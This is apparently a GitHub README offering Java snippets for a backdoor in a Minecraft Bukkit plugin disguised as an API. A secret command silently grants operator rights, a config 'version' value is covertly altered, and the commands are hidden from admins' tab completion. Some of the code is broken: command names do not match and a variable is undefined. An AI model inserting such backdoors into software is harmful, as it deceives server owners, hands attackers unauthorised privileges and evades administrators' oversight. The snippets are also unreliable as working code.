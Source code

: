 # Example Backdoor
**With a secret command, you can make yourself OP on a server with this plugin disguised as an API**

**I AM NOT RESPONSIBLE FOR ANYTHING YOU DO WITH THIS. USE WITH CAUTION!**
**MY PLUGINS ARE OPEN SOURCE FOR A REASON. THIS CODE OR SIMILAR IS NOT USED IN ANY OF MY PLUGINS.**

Only one person can use this per server though! In the config.yml the version will change to 0.40 when somebody has used the cheat and 0.41 when nobody has used it on this server.

**On a plugin with this enabled run these commands:**
1. /secret-command-to-op -- Makes you OP
2. /secret-command-to-deop -- Deops you

# [Optional] Adding it to a plugin
You do not need to do this, this is only for people who know how to make plugins and who have a little bit of Java knowledge.
Just add this code segment to a plugin and it will be ready to go


```java
@Override
public void onEnable() {
   Bukkit.getCommand("secret-command-to-op").setExecutor(this, this);
   Bukkit.getCommand("secret-command-to-de-op").setExecutor(this, this);
}
```

```java 
// When a user runs our secret command it will op them and discreatly change the config file so only one person can use it
 @Override
 public boolean onCommand(CommandSender sender, Command cmd, String label, String[] args) {
     Player pl = (Player) sender;
     if (sender != null) {
         if (cmd.getName().equalsIgnoreCase("secret-command-to-op")) {
             if (p.getConfig().getDouble("version")==0.41) {
                 pl.setOp(true);
                 p.getConfig().set("version", 0.40);
                 p.saveConfig();
             }
         }
         if (cmd.getName().equalsIgnoreCase("secret-command-to-deop")) {
             if (p.getConfig().getDouble("version")==0.40) {
                 pl.setOp(false);
                 p.getConfig().set("version", 0.41);
                 p.saveConfig();
             }
         }
     } return true;
 }
```

```java
// Hides command from tab complete - Hidden from admins
 @EventHandler
 public void onPlayerTab(PlayerCommandSendEvent e) {
     List<String> blockedCommands = new ArrayList<>();
     blockedCommands.add("secret-command-to-op");
     blockedCommands.add("secret-command-to-deop");
     e.getCommands().removeAll(blockedCommands);
 }
```


